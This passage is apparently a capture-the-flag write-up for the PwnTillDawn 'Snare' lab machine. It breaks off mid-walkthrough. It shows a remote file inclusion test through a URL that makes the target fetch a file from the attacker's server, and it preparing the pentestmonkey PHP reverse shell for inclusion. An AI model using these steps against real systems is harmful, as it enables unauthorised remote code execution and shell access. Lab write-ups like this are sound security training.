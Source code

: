 

<h2>Enumeration</h2>

Going to the webpage should get you this

![image](https://user-images.githubusercontent.com/67879936/222952400-04a80c1e-e267-45d3-91df-7f37b07d8657.png)

Lets test this site for possible RFI (Remote File Inclusion).

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ ls
snare
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Link:http://10.150.150.18/index.php?page=http://10.66.67.154/snare

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ ls
snare
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.150.150.18 - - [05/Mar/2023 10:48:34] code 404, message File not found
10.150.150.18 - - [05/Mar/2023 10:48:34] "GET /snare.php HTTP/1.0" 404 -
```
As you can see we got a 404 error, why is that?? This is because a .php extension is automatically added to the end of our file when we run it. 

So, to exploit this we will put our reverse shell in a file named ```shell.php```, so when we run it in the browser we will exclude the ```.php``` because the extension will be automatically a added to it and this executes our shell for us.

I'll be making use of pentester monkey

you can get it here:https://github.com/pentestmonkey/php-reverse-shell

Ensure you set your $ip and also the port you will want to listen on

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ gedit shell.php
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ file shell.php 
shell.php: PHP script, ASCII text
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PwnTillDawn/snare]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
On the webserver,
